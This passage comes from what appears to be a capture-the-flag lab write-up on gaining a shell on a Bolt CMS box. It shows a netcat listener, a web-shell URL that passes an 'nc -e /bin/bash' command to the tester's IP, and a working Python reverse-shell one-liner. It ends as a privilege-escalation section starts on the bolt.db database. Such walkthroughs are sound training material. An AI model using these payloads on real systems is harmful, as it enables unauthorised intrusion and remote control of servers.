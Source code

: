 ```
Next we need to start a netcat listener on our local machine

┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ rlwrap nc -nlvp 4444                                 
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444


Finally, we can trigger this connection via the browser to get our reverse shell:

http://erit.thm/files/cmd.php?cmd=./nc%20-e%20/bin/bash%2010.11.81.220%204444

┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ rlwrap nc -nlvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444

not work so using python rev shell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.81.220",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'


Enter OS command , for exit 'quit' : python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.81.220",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ rlwrap nc -nlvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.138.76.
Ncat: Connection from 10.10.138.76:54668.
www-data@Erit:/var/www/html/public/files$ whoami
whoami
www-data

it works!


```

### Priv esc 

In the app/database directory you will find the bolt.db SQLite3 database

file bolt.db
bolt.db: SQLite 3.x database, last written using SQLite version 3020001
